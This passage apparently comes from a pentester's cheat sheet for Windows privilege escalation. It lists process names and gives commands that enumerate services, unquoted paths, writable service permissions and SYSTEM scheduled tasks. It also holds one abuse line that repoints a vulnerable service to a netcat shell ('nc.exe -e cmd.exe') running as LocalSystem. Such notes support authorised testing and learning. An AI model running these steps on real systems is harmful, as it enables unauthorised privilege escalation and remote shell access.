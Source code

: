 	ShellExperienceHost
	sihost
	smss
	StartMenuExperienceHost
	svchost
	taskhostw
	tasklist
	vm3dservice
	vmtoolsd
	wininit
	winlogon
	WmiApSrv
	WmiPrvSE
	WUDFHost
##### Environmet Variables
`set` and `Get-ChildItem Env: | ft Key,Value`

##### Installed programs
```powershell
wmic product get name"," version"," vendor
```
	
 Alternative: `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` (32-bit) and `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`. Also, check the _Program Files_ directories as this list might be incomplete
##### Services
```powershell
wmic service get name","displayname","pathname","startmode |findstr /i "auto" |findstr /i /v "c:\windows\\"
```
Alternatives: `Get-Service` or
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,StartMode,PathName | Where-Object {$_.State -like 'Running'}
```

Check if non-default services have files with lax write-permissions (W or F):
```powershell
icacls $file
```
Alternative: `Get-ACL`

Check if any of the pathnames are **unquoted** but contain spaces. e.g. with: `wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """` or `gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name`
##### Modifiable Services:
```powershell
accesschk.exe -accepteula -wuqvc "Everyone" *
```
Sysinternals. Also try with  `"Users"` and `"Authenticated Users"`
Look for GENERIC_WRITE, GENERIC_ALL, or SERVICE_CHANGE_CONFIG to abuse. Look for WRITE_DAC or WRITE_OWNER to allow SERVICE_CHANGE_CONFIG
Abuse with `sc config <vulnerableService> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"; sc config <vulnerableService> obj= ".\LocalSystem" password= ""; net start <vulnerableService>`)
##### Scheduled tasks
> Always run as SYSTEM under Win2000, XP, and 2003
```powershell
schtasks /query /fo CSV /v | ConvertFrom-Csv | where { $_.Status -ne "Disabled" -and $_."Run As User" -like "SYSTEM" -and $_.TaskPath -notlike "\Microsoft*" }
```
Alternative: `Get-ScheduledTask`, `dir C:\windows\tasks`
